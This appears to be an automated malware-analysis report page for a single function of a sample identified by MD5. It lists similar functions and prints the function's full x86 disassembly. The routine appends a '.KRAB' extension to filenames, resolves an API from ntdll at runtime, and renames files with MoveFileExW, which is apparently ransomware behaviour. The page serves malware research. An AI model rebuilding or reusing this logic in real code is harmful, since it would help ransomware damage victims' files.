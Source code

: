 ```yaml
---
layout: post
title:  "fcn.0040764a @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040764a
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.10003d80][similar_1_ref] (sim.: 0.8927565721160741)
2. [fcn.00405242][similar_2_ref] (sim.: 0.8850569852420833)
3. [fcn.0040641d][similar_3_ref] (sim.: 0.8837182207328916)
4. [fcn.0040303e][similar_4_ref] (sim.: 0.8828790086704955)
5. [fcn.00437a93][similar_5_ref] (sim.: 0.8805609088708102)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x38
mov eax,dword[0x423304]
push ebx
push esi
xor ebx,ebx
mov dword[ebp-8],edx
mov esi,ecx
push edi
mov edi,ebx
test eax,eax
je 0x407673
push eax
call dword[sym.imp.KERNEL32.dll_lstrlenW]
lea edi,[eax*2+2]
push esi
call dword[sym.imp.KERNEL32.dll_lstrlenW]
add eax,edi
lea ecx,[eax*2+0x18]
call fcn.00408cd4
mov edi,eax
test edi,edi
je 0x4077ad
mov eax,dword[0x423304]
test eax,eax
jne 0x4076ad
push esi
push str._s.KRAB
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0xc
jmp 0x4076be
push eax
push esi
push str._s_s
push edi
call dword[sym.imp.USER32.dll_wsprintfW]
add esp,0x10
mov ecx,esi
call fcn.004074e1
test eax,eax
jne 0x4077a4
mov ecx,esi
call fcn.004071ba
test eax,eax
jne 0x4077a1
mov eax,dword[ebp-8]
cmp dword[eax+0x20],2
jb 0x4077a1
mov ecx,esi
call fcn.00407410
xor ecx,ecx
xor edx,edx
inc ecx
test eax,eax
cmovne ecx,edx
mov dword[ebp-4],ecx
cmp dword[0x423310],edx
jne 0x407775
push 0x6e
pop eax
push 0x74
mov word[ebp-0x38],ax
pop eax
push 0x64
pop ecx
push 0x6c
pop edx
mov word[ebp-0x36],ax
push 0x2e
pop eax
mov word[ebp-0x2e],ax
xor eax,eax
mov dword[ebp-0x26],eax
lea eax,[ebp-0x38]
push eax
mov word[ebp-0x34],cx
mov word[ebp-0x32],dx
mov word[ebp-0x30],dx
mov word[ebp-0x2c],cx
mov word[ebp-0x2a],dx
mov word[ebp-0x28],dx
call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]
test eax,eax
je 0x407772
movdqa xmm0,xmmword[0x41a890]
lea ecx,[ebp-0x20]
push ecx
push eax
movdqu xmmword[ebp-0x20],xmm0
mov dword[ebp-0x10],0x656c6946
mov byte[ebp-0xc],bl
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov dword[0x423310],eax
mov ecx,dword[ebp-4]
mov edx,dword[ebp+8]
lea eax,[ebp-4]
push eax
push dword[ebp-8]
mov dword[ebp-4],ebx
push ecx
push ecx
mov ecx,esi
call fcn.00401261
add esp,0x10
test eax,eax
je 0x4077a1
cmp dword[ebp-4],ebx
je 0x4077a1
push 1
push edi
push esi
call dword[sym.imp.KERNEL32.dll_MoveFileExW]
xor ebx,ebx
inc ebx
mov ecx,edi
call fcn.00408ce5
mov eax,ebx
pop edi
pop esi
pop ebx
mov esp,ebp
pop ebp
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.10003d80@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.00405242@73677cb40830e94fbfb5483ff33e40b9
[similar_3_ref]: /report/fcn.0040641d@470263fe7e7cc115b95cd041d643e3b5
[similar_4_ref]: /report/fcn.0040303e@470263fe7e7cc115b95cd041d643e3b5
[similar_5_ref]: /report/fcn.00437a93@418e0921f3a9bd4f5bc0dcc59623b5a1
[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5